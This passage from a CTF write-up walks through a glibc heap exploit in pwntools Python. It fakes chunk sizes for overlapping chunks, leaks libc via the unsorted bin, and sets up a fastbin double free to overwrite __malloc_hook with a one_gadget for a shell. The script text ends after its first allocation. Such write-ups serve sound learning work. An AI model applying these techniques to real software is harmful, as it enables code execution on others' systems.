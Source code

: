 ```py
    #We get our overlapping chunk
    add(0x10,p64(0) + p64(0xe1)) # chunk number 9, Faking header's size to small bin , chunk 1 taken as header and fake_chunk returned as overlapping chunk

    #Finally free our small bin to populate its fd and bk with libc
    free(4)

    #Add chunk number 10
    add(0x10,'\x78') #Chunk 10, returned from unsorted bin having fd and bk as libc

    #Finally free it to print libc 
    free(10)
    reu('will free: ')
    libc_base = u64(re(6) + '\x00'*2)
    log.info('libc_base @ ' + hex(libc_base)) - 0x3c4b78
    gdb.attach(io)
    io.interactive()

```

Phew! ,Getting libc was a little tideous , but now we can do the same and get a fastbin of 0x70 size chunk to overwrite **malloc\_hook** with **one\_gadget**.

I changed the script a little bit due to a lot of reasons , one of them being running out of allocations.

So now the plan is to  fake two 0x71 fastbins so that we can double free yet again and write to the misaligned region near our beloved **\__malloc\_hook** and finally get shell.

Also note that I used double free as a medium of calling malloc as the constraints of **one\_gadget** were not satisfying in normal malloc call.

Here's the script by the way.

```py
from pwn import *
import sys

HOST = '172.35.29.41'
PORT = 9999

if(len(sys.argv)>1):
    io=remote(HOST,PORT)
    context.noptrace=True
else:
    io=process('./pwn',env = {"LD_PRELOAD" : "./libc.so.6"})

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)

def add(size,note):
    io.sendlineafter("Choice >>","1")
    io.sendlineafter("Size:",str(size))
    io.sendafter("Note:",str(note))

def free(idx):
    io.sendlineafter("Choice >>","2")
    io.sendlineafter("Index:",str(idx))

if __name__=="__main__":
    add(0x70,'0'*0x60 + p64(0) + p64(0x21))
```